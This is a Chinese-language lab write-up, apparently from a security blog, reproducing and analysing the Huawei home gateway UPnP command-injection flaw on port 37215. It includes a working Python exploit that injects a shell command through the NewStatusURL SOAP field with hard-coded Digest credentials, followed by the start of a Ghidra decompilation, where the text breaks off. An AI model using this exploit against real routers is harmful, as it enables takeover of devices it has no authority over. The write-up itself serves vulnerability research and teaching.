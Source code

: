 eth0没了 我们重新启动  
```
ifconfig eth0 192.168.153.3/24 up

```  
  
在宿主机测试：  
```
nc -vv 192.168.153.3 37215

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibgFwbTtR15WljCwRial15232cvLICfRoPhFvLhSibZ7L5hNdulwys2xXliaSicVbCj2CYwIOhiahGV3Dg/640?wx_fmt=png&from=appmsg "")  
  
环境启动成功  
## 漏洞复现  
```
import requests   
headers = {  
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"  
}  
  
data = '''<?xml version="1.0" ?>  <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">    <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">     <NewStatusURL>;mkdir test_shell;</NewStatusURL>     <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>    </u:Upgrade>  </s:Body>  </s:Envelope>  '''  
requests.post('http://192.168.153.3:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibgFwbTtR15WljCwRial1523zyuOYsPb4RABibNU7lL4Adgia19O6q4jRicg7EgbyQXHx3lAyL9u9Sqhg/640?wx_fmt=png&from=appmsg "")  
  
注入成功  
## 漏洞分析  
  
漏洞首发于CheckPoint，其漏洞报告中描述了漏洞利用的一些细节：  
  
华为家庭网关利用标准化的UPnP协议（基于TR-064技术报告）来简化和无缝连接网络配置，广泛应用于嵌入式设备中。这些设备通常用于家庭和企业的本地网络配置，比如设备配置和固件升级。然而，在目标路由器中，TR-064通过37215端口暴露于WAN。具体到这款路由器，其UPnP实现支持DeviceUpgrade服务类型，该服务通过在URL /ctrlt/DeviceUpgrade_1 接收请求执行固件升级，并使用NewStatusURL和NewDownloadURL两个SOAP元素。然而，这两个元素存在命令注入漏洞，导致安全风险。  
### 分析upnp  
  
跟踪"NewStatusURL" 用ida分析发现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibgFwbTtR15WljCwRial1523ojyPsPYNcNeibb9FgQpO5YOI1XJwPhUA4cMxDY18CzaPaicL9uibsuPKA/640?wx_fmt=png&from=appmsg "")  
  
直接看汇编可能不是很能看出来 我们通过ghidra 进行分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibgFwbTtR15WljCwRial1523ojyPsPYNcNeibb9FgQpO5YOI1XJwPhUA4cMxDY18CzaPaicL9uibsuPKA/640?wx_fmt=png&from=appmsg "")  
```
int FUN_0040749c(int param_1)  
{  
  int iVar1;  
  char *local_418;  
  char *local_414;  
  char acStack1040 [1028];  

  iVar1 = ATP_XML_GetChildNodeByName  
                 (\*(int *)(param_1 + 0x2c),"NewDownloadURL",(int *)0x0,&local_418);  
  if (((iVar1 == 0) && (local_418 != (char *)0x0)) &&  
     (iVar1 = ATP_XML_GetChildNodeByName  
                     (\*(int *)(param_1 + 0x2c),"NewStatusURL",(int *)0x0,&local_414), iVar1 == 0)) {  
```